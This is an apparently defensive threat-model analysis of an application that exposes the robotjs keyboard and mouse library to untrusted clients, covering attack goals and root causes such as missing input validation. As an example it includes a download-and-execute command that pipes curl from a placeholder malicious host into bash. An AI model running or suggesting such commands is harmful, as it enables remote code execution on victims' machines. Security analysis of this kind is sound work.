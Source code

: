 ## Deep Analysis of Attack Tree Path 3: Exploiting Insecure RobotJS Usage

This document provides a deep analysis of the identified attack tree path concerning the insecure usage of the `robotjs` library within the application. We will break down the path, analyze the risks, and provide recommendations for mitigation.

**Attack Tree Path:**

High-Risk Path 3: Exploit Insecure Configuration or Usage -> Exposing RobotJS Functionality Directly to Untrusted Users/Clients -> Directly Trigger Malicious RobotJS Functions via Application Interface

**Overview:**

This attack path highlights a critical vulnerability arising from exposing the powerful capabilities of the `robotjs` library directly to untrusted users or clients through the application's interface. This essentially grants external entities the ability to control the system's input devices (keyboard and mouse) and potentially perform screen captures. While basic authentication might exist, it's insufficient to prevent malicious exploitation if the underlying design flaw persists.

**Detailed Analysis of Critical Nodes:**

* **Achieve Arbitrary Code Execution via RobotJS:**
    * **Meaning:** This is the ultimate goal of the attacker. By manipulating `robotjs` functions, they aim to execute commands or scripts on the underlying operating system.
    * **How it's Achieved:**  While `robotjs` itself doesn't directly execute arbitrary code in the traditional sense (like `eval()`), its ability to control keyboard and mouse inputs can be leveraged to achieve this. Attackers can:
        * **Open and Interact with Terminals/Command Prompts:**  Simulate keystrokes to open a terminal, type commands (e.g., `curl malicious.com | bash`), and execute them.
        * **Manipulate Applications:**  Control mouse clicks and keyboard inputs to interact with existing applications in a malicious way (e.g., changing system settings, installing software, exfiltrating data).
        * **Inject Code into Running Processes:**  While more complex, it's theoretically possible to use input simulation to inject code into vulnerable applications if specific conditions are met.
    * **Potential Consequences:** Complete system compromise, data breaches, malware installation, denial of service, and disruption of operations.

* **Exploit Insecure Configuration or Usage of RobotJS:**
    * **Meaning:** This node represents the fundamental security flaw. The application's architecture or configuration allows direct access to `robotjs` functionalities in an unsafe manner.
    * **How it Occurs:**
        * **Lack of Input Validation and Sanitization:** The application doesn't properly validate or sanitize the input received from users before passing it to `robotjs` functions.
        * **Overly Permissive API Design:** The application's API endpoints or communication channels are designed in a way that allows users to directly specify `robotjs` commands or parameters.
        * **Insufficient Access Controls:**  Even with authentication, the authorization mechanisms might be too broad, granting excessive permissions to users.
        * **Misunderstanding of RobotJS Capabilities:** Developers might not fully grasp the potential security implications of exposing `robotjs` functionality directly.
    * **Potential Consequences:**  The entire attack path becomes viable, leading to the exploitation of the exposed functionality.
